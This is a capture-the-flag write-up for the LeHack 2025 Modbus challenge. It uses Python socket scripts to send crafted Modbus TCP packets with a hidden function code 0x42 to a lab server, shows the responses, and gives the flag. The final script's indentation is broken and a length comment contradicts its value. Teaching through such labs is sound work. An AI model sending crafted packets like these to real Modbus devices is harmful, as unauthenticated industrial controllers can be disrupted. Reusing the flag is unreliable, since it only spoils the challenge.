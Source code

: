 # wargame2025-modbus_scolaire
This is my writeup for the LeHack Wargame 2025 challenge Modbus_Scolaire.

## Challenge description
Un unprotected modbus server is freely responding on the network. Can you break it? Flag format : LeHACK{the_flag}

Basic modbus packets will look like this :

    \x00\x01 Transaction ID
    \x00\x00 Protocol ID
    \x00\x0A Length: 10 bytes after this field
    \x01 Unit ID

-> Function code : 1 byte

-> Payload : the rest

modbus_scolaire.wargame.rocks:1502

Direct bruteforce is not recommended : the amount of combinations is above 10^{12} and we close at 8:00 AM

## Google what a function code does
Modbus function codes are 8 bit long numerical identifiers that dictate the specific operations performed by a Modbus device. These codes instruct the slave device on actions like reading or writing data to coils or registers. They are part of the Protocol Data Unit (PDU) within a Modbus message. 
Modbus has these common function codes:
| Function Code | Description             |
|---------------|-------------------------|
| 0x01          | Read Coils              |
| 0x02          | Read Discrete Inputs    |
| 0x03          | Read Holding Registers  |
| 0x04          | Read Input Registers    |
| 0x05          | Write Single Coil       |
| 0x06          | Write Single Register   |
| 0x0F          | Write Multiple Coils    |

## Communicate with modbus server

Start by initiating normal contact

  ```python
import socket
  
HOST = 'modbus_scolaire.wargame.rocks'
PORT = 1502

packet = (
    b'\x00\x01'  # Transaction ID
    b'\x00\x00'  # Protocol ID
    b'\x00\x0A'  # Length (10 bytes after this)
    b'\x01'      # Unit ID
    b'\x01'      # Function Code: Read Coils
)

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST, PORT))
    s.sendall(packet)
    data = s.recv(1024)
    print("Received:", data)
```
Response:
`Ack`
--> Cool, modbus notices us.
Loop through all of the function codes and realise this is not the way, everything only gives back `Ack`. 
Try out funny numbers as function code like `\x69` or `\x42`.
`\x42` actually changes the response to `func42............`!
Progress!

## Prepare different payloads
So we know the rest of the payload is 8 bits long, let's prepare a list of payloads!
  ```python
import socket

HOST = 'modbus_scolaire.wargame.rocks'
PORT = 1502

test_payloads = [
    b'\x00\x00\x00\x01\x00\x00\x00\x00',  # read 1 register at 0
    b'\x00\x00\x00\x08\x00\x00\x00\x00',  # read 8 registers at 0
    b'\x13\x37\x00\x01\x00\x00\x00\x00',  # leet + read 1
    b'\xDE\xAD\xBE\xEF\x00\x00\x00\x01',  # hex magic

]

for payload in test_payloads:
    packet = (
        b'\x00\x01' +               # Transaction ID
        b'\x00\x00' +               # Protocol ID
        b'\x00\xFF' +               # Length (10 bytes after this field)
        b'\x01' +                   # Unit ID
        b'\x42' +                   # Function code 0x42
        payload                     # 8 bytes payload
    )

    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect((HOST, PORT))
        s.sendall(packet)
        data = s.recv(1024)
        print(f"Sent payload: {payload} | Received: {data}")

```

Responses
```shell

Sent payload: b'\x00\x00\x00\x01\x00\x00\x00\x00' | Received: b'func42............\n'
Sent payload: b'\x00\x00\x00\x08\x00\x00\x00\x00' | Received: b'func42............\n'
Sent payload: b'\x13\x37\x00\x01\x00\x00\x00\x00' | Received: b'func421955......\n'
Sent payload: b'\xde\xad\xbe\xef\x00\x00\x00\x01' | Received: b'func42......190239\n'
```
Oh hello there, seems like we're halfway there.

## Combine the working payloads to one
Try around different variations of payload until you're sure that the relevant parts are `\x13\x37\` and `\xBE\xEF`

## Final working file
```python
import socket

HOST = 'modbus_scolaire.wargame.rocks'
PORT = 1502

payload = b'\x13\x37\xBE\xEF\x01\x00\x00\x00'


  packet = (
      b'\x00\x01' +               # Transaction ID
      b'\x00\x00' +               # Protocol ID
      b'\x00\xFF' +               # Length (10 bytes after this field)
      b'\x01' +                   # Unit ID
      b'\x42' +                   # Function code 0x42
      payload                     # 8 bytes payload
  )

    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect((HOST, PORT))
        s.sendall(packet)
        data = s.recv(1024)
        print(f"Sent payload: {payload} | Received: {data}")

```
Get the flag `LeHACK{unsafe_modbus_packets_4_win}`
